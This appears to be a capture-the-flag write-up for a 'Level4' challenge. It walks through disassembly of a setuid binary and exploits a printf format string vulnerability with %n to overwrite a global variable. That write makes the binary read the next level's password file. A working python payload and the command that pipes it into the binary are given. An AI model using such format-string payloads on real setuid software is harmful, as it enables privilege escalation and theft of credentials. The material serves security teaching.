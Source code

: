 # Level4

## Solution

* There is one file in our home, ```level4```, belonging to ```level5``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```n``` function.

* Here is the disassembled ```n``` function:
```asm
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218
0x08048460 <+9>:	mov    eax,ds:0x8049804
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
0x08048471 <+26>:	lea    eax,[ebp-0x208]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
0x0804847f <+40>:	lea    eax,[ebp-0x208]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
0x080484a0 <+73>:	call   0x8048360 <system@plt>
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
   ```

* Several interesting information about it:

	* ```n``` calls ```fgets``` at offset ```35``` function with a buffer allocated on the stack.
	* then it calls ```p``` function (see after) qt offset ```49```, passing the buffer in parameter.
	* between offsets ```54``` and ```64```, it compares the value contained at the address ```0x8049810``` with the value ```0x1025544```.
	* if they are the same, it calls ```system``` function. ```gdb``` allows us to see that the command passed in parameter is ```/bin/cat /home/user/level5/.pass```

* Here is the diassembled ```p``` function:
```
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
   ```

* Interesting information about it:

	* there is call to ```printf``` at offset ```12```. ```gdb``` allows us to see that it is with the buffer allocated for ```fgets```


* What we did with all of this:

	* the goal was to modify the value held at ```0x8049810``` so that it becomes equal to ```0x1025544```, what would launch the ```system("/bin/cat /home/user/level5/.pass")```
	* for that we exploited the "format string vulnerability" of ```printf``` called in ```p```, with our own ```input``` (the one we send to ```fgets```).
	* we used conversion specifiers (for instance ```%x```), to get to the beginning of the buffer allocated for ```fgets```. Indeed, each time we use a conversion specifier, ```printf``` "points" after the last argument it processed on the stack.
	* We made sure the first value at the beginning of the buffer was ```0x8049810```
	* then we used ```%n``` to store at this address the length of the output string

	* To make a long story short:
	```sh
	python -c "print('10980408'.decode('hex') + '%8x ' * 10 + '%16930022x' + '%n')" > /var/crash/lvl4
	```
	* ```10980408``` is the little endian written address we want to write at
	* we used ```11``` conversion specifiers to reach the beginiing of the buffer (there were ```(10 + 1) * 4 = 44``` bytes separating first argument of printf from the buffer)
	* we use the lenght modifier ```%16930022x``` to output a final string of the size ```0x1025544```
	* ```%n``` stores this value at the address ```0x8049810```

	* We finally get the flag by launching:
	```sh
	cat /var/crash/lvl4 | ./level4
	```
